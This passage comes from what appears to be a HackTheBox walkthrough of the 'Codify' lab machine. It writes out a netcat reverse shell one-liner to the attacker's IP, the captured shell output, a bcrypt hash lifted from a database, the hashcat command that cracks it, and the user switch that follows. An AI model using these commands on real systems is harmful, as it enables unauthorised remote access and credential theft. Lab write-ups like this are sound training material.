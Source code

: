 
Nice that worked. We have code execution here. Lets update the code to spawn a reverse shell for us.

### Exploitation

I can update the `command` variable to:

```javascript
const command = 'busybox nc 10.10.14.136 443 -e /bin/bash';
```

Which catches me a shell back in my listener:

```
┌──(ryan㉿kali)-[~/HTB/Codify]
└─$ nc -lnvp 443                        
listening on [any] 443 ...
connect to [10.10.14.136] from (UNKNOWN) [10.129.73.66] 49994
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
whoami
svc
hostname
codify
```

Browsing around the site we find a tickets.db file which contains joshua's password hash:

```
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Lets try cracking this with hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Codify]
└─$ hashcat joshua_hash /usr/share/wordlists/rockyou.txt -m 3200 --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Cool, lets use `su` to switch users to joshua:

```
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ whoami
joshua
```

We can now grab the user.txt flag:

![codify_user_flag.png](../assets/codify_assets/codify_user_flag.png)
